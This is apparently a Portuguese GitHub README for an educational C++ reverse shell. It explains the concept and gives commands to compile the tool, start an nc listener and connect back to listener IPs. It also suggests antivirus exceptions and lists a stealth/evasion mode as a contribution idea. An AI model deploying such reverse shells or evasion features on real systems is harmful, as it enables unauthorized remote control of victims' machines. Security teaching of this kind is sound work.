

# 🐚 CPP Reverse Shell

<div align="center">

[](LICENSE)
[](https://github.com/ZXyoukai/CPP-reverse-shell/issues)
[](https://isocpp.org/)
[](#prerequisites)

**✨ Uma implementação educacional de reverse shell em C++**

*Explore, aprenda e contribua com responsabilidade! 🎓*

</div>

---

## 📋 Índice

<details>
<summary>🔍 Clique para expandir o índice</summary>

- [🚀 Como funciona?](#-como-funciona)
- [📋 Pré-requisitos](#-pré-requisitos)
- [🛠️ Instalação e Uso](#️-instalação-e-uso)
  - [Setup Rápido](#setup-rápido)
  - [Passo a Passo Detalhado](#passo-a-passo-detalhado)
- [💡 Exemplos Práticos](#-exemplos-práticos)
- [❓ FAQ](#-faq)
- [🔧 Troubleshooting](#-troubleshooting)
- [🤝 Como Contribuir](#-como-contribuir)
- [🔍 Referências](#-referências)
- [📜 Licença](#-licença)

</details>

---

> ⚠️ **IMPORTANTE**: Este projeto é destinado exclusivamente para fins educacionais e de pesquisa em ambientes controlados. 
> O uso inadequado ou malicioso deste código pode ser ilegal e antiético. Use com responsabilidade!

---

## 🚀 Como funciona?

<details>
<summary>📖 Entenda o conceito de Reverse Shell</summary>

Uma **reverse shell** inverte a conexão tradicional cliente-servidor. Em vez de o atacante conectar-se diretamente à máquina alvo, a máquina alvo conecta-se de volta ao atacante.

### 🔄 Fluxo de Funcionamento



### ✨ Vantagens da Reverse Shell
- ✅ Contorna firewalls que bloqueiam conexões de entrada
- ✅ Útil quando a máquina alvo está atrás de NAT
- ✅ Permite controle remoto discreto

</details>

## 📋 Pré-requisitos

<details>
<summary>🖥️ Requisitos do Sistema</summary>

### Para Linux 🐧
- [ ] Sistema operacional Linux (Ubuntu, Debian, CentOS, etc.)
- [ ] GCC/G++ 7.0 ou superior
- [ ] Make (opcional)
- [ ] Netcat (`nc`) para testes

### Para Windows 🪟  
- [ ] Windows 10 ou superior
- [ ] MinGW-w64 ou Visual Studio
- [ ] WSL (recomendado para testes)

### Verificação Rápida
```bash
# Verifique a versão do compilador
g++ --version

# Verifique se o netcat está disponível
nc -h
```

</details>

---

## 🛠️ Instalação e Uso

### Setup Rápido

<details>
<summary>⚡ Para usuários experientes</summary>

```bash
# Clone, compile e execute em 3 comandos
git clone https://github.com/ZXyoukai/CPP-reverse-shell.git && cd CPP-reverse-shell
g++ -o reverse_shell reverse_shell.cpp
# Terminal 1: nc -lvnp 4444
# Terminal 2: ./reverse_shell <IP> 4444
```

</details>

### Passo a Passo Detalhado

<details open>
<summary>📚 Guia completo para iniciantes</summary>

#### 1️⃣ Clone o Repositório
```bash
git clone https://github.com/ZXyoukai/CPP-reverse-shell.git
cd CPP-reverse-shell
```

#### 2️⃣ Compile o Projeto
```bash
# Compilação básica
g++ -o reverse_shell reverse_shell.cpp

# Ou com flags de otimização (recomendado)
g++ -Wall -Wextra -O2 -o reverse_shell reverse_shell.cpp
```

#### 3️⃣ Configurar o Listener
**Em um terminal separado ou máquina diferente:**
```bash
# Inicia o listener na porta 4444
nc -lvnp 4444

# Para Windows (usando ncat):
ncat -lvnp 4444
```

#### 4️⃣ Executar a Reverse Shell
```bash
./reverse_shell <IP_DO_LISTENER> <PORTA>
```

**Exemplos:**
```bash
# Conectar a localhost
./reverse_shell 127.0.0.1 4444

# Conectar a IP remoto
./reverse_shell 192.168.1.100 4444

# Usar porta personalizada
./reverse_shell 192.168.1.100 8888
```

</details>

## 💡 Exemplos Práticos

<details>
<summary>🧪 Cenários de Teste</summary>

### 🏠 Teste Local (Same Machine)
```bash
# Terminal 1 - Listener
nc -lvnp 4444

# Terminal 2 - Reverse Shell
./reverse_shell 127.0.0.1 4444
```

### 🌐 Teste em Rede Local
```bash
# Máquina A (IP: 192.168.1.100) - Listener
nc -lvnp 4444

# Máquina B - Reverse Shell  
./reverse_shell 192.168.1.100 4444
```

### 🔧 Teste com Portas Diferentes
```bash
# Use portas altas não privilegiadas
nc -lvnp 8080
./reverse_shell <IP> 8080
```

</details>

---

## ❓ FAQ

<details>
<summary>🤔 Perguntas Frequentes</summary>

### **P: O que fazer se a conexão falhar?**
**R:** Verifique:
- [ ] Se o listener está ativo antes de executar a reverse shell
- [ ] Se o IP e porta estão corretos
- [ ] Se não há firewall bloqueando a conexão
- [ ] Se a porta não está sendo usada por outro processo

### **P: Funciona no Windows?**
**R:** Sim! Você pode:
- Compilar com MinGW: `g++ -o reverse_shell.exe reverse_shell.cpp`
- Usar WSL para ambiente Linux
- Adaptar o código para Winsock (contribuições são bem-vindas!)

### **P: É detectado por antivírus?**
**R:** Sim, é normal. Reverse shells são detectadas como potenciais ameaças. Para fins educacionais:
- Execute apenas em ambientes controlados
- Adicione exceção no antivírus temporariamente
- Use máquinas virtuais isoladas

### **P: Posso usar outras portas?**
**R:** Claro! Evite portas bem conhecidas (80, 443, 22) e use portas altas (>1024) que não requerem privilégios.

</details>

---

## 🔧 Troubleshooting

<details>
<summary>🩺 Soluções para Problemas Comuns</summary>

### ❌ Erro: "Connection refused"
```bash
# Possíveis causas e soluções:
1. Listener não está rodando → Verifique: netstat -ln | grep 4444
2. IP incorreto → Verifique: ip addr show
3. Firewall bloqueando → Temporariamente: sudo ufw disable
```

### ❌ Erro: "Permission denied"
```bash
# Se o executável não tem permissão
chmod +x reverse_shell

# Se a porta requer privilégios (< 1024)
sudo ./reverse_shell <IP> <PORTA>
# Ou use porta > 1024
```

### ❌ Erro de Compilação
```bash
# Instalar dependências no Ubuntu/Debian
sudo apt update && sudo apt install build-essential

# No CentOS/RHEL
sudo yum groupinstall "Development Tools"
```

### 🔍 Debug Mode
```bash
# Compile com símbolos de debug
g++ -g -DDEBUG -o reverse_shell reverse_shell.cpp

# Execute com strace (Linux)
strace ./reverse_shell <IP> <PORTA>
```

</details>

---

## 🤝 Como Contribuir

<details>
<summary>💪 Junte-se ao projeto!</summary>

### 🌟 Formas de Contribuir
- [ ] 🐛 Reporte bugs via [Issues](https://github.com/ZXyoukai/CPP-reverse-shell/issues)
- [ ] 💡 Sugira melhorias ou novas funcionalidades  
- [ ] 📝 Melhore a documentação
- [ ] 🔧 Envie patches e correções
- [ ] 🌍 Traduza para outros idiomas
- [ ] ⭐ Dê uma estrela no projeto!

### 🚀 Processo de Contribuição
1. **Fork** o projeto
2. **Clone** seu fork: `git clone https://github.com/SEU_USERNAME/CPP-reverse-shell.git`
3. **Crie** uma branch: `git checkout -b minha-funcionalidade`
4. **Faça** suas alterações
5. **Teste** as mudanças
6. **Commit**: `git commit -m "feat: adiciona nova funcionalidade"`
7. **Push**: `git push origin minha-funcionalidade`
8. **Abra** um Pull Request

### 💡 Ideias para Contribuições
- [ ] Suporte para Windows nativo (Winsock)
- [ ] Criptografia na comunicação
- [ ] Interface gráfica simples
- [ ] Modo stealth/evasão
- [ ] Documentação em inglês
- [ ] Dockerfile para testes

</details>

---

## 🔍 Referências

<details>
<summary>📚 Materiais de Estudo e Referência</summary>

### 📖 Documentação Técnica
- [📋 Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) - Guia completo de reverse shells
- [🔌 C++ Socket Programming](https://www.cplusplus.com/reference/sys/socket/) - Referência de sockets em C++
- [🐧 Linux Network Programming](http://man7.org/linux/man-pages/man2/socket.2.html) - Manual de sockets no Linux

### 🎓 Recursos Educacionais
- [🛡️ Ethical Hacking Course](https://www.coursera.org/specializations/ethical-hacking) - Curso de hacking ético
- [💻 C++ Network Programming](https://www.boost.org/doc/libs/1_81_0/doc/html/boost_asio.html) - Boost.Asio para networking
- [🔒 Cybersecurity Fundamentals](https://www.sans.org/white-papers/) - SANS White Papers

### 🛠️ Ferramentas Relacionadas
- [🌐 Netcat](http://netcat.sourceforge.net/) - Swiss Army Knife do networking
- [🔍 Wireshark](https://www.wireshark.org/) - Análise de tráfego de rede
- [🧪 Metasploit](https://www.metasploit.com/) - Framework de testes de penetração

</details>

---

## 📜 Licença

<div align="center">

**MIT License** 📄

Distribuído sob a licença MIT. Consulte o arquivo `LICENSE` para mais detalhes.

*Copyright (c) 2024 ZXyoukai*

---

<details>
<summary>📞 Contato e Suporte</summary>

### 💬 Precisa de Ajuda?
- 🐛 **Bugs**: [Abra uma issue](https://github.com/ZXyoukai/CPP-reverse-shell/issues/new?template=bug_report.md)
- 💡 **Sugestões**: [Feature request](https://github.com/ZXyoukai/CPP-reverse-shell/issues/new?template=feature_request.md)
- ❓ **Dúvidas**: [Discussions](https://github.com/ZXyoukai/CPP-reverse-shell/discussions)

### 🌟 Gostou do Projeto?
Se este projeto foi útil para você, considere:
- ⭐ Dar uma estrela no GitHub
- 🐦 Compartilhar nas redes sociais
- ☕ [Buy me a coffee](https://www.buymeacoffee.com/zxyoukai) (se disponível)

</details>

</div>

---

<div align="center">

**⚠️ LEMBRETE IMPORTANTE ⚠️**

*Este projeto é destinado exclusivamente para educação e pesquisa em cibersegurança.*  
*O uso responsável e ético é fundamental. Sempre obtenha permissão adequada antes de testar.*

**📚 Aprenda • 🔒 Proteja • 🤝 Compartilhe**

</div>